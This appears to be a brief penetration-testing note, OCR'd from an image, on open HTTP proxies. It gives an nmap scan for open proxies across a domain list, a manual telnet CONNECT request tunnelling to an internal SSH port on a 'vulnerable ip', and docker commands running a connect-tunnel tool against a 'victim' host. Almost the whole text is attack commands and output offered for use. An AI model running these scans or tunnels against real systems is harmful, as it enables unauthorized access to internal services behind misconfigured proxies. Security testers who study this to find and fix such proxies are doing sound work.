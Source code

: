 
# Find such issues

nmap --script http-open-proxy -p80,443,8080 -iL /tmp/domains.txt


# Exploit it manually

telnet <vulnerable ip> 8080
CONNECT 127.0.0.1:22 HTTP/1.1

HTTP/1.1 200 Connection established
Proxy-agent: Proxy+ 2.50
SSH-2.2-OpenSSH_5.1p1 Debian-8

# Exploit automatically

docker build -t whitespots/connect-tunnel .
docker run -it --rm --name connect-tunnel whitespots/connect-tunnel -P victim:8080 -T hostport:target:port -v

(Read more about this tool)[http://manpages.ubuntu.com/manpages/bionic/man1/connect-tunnel.1p.html]
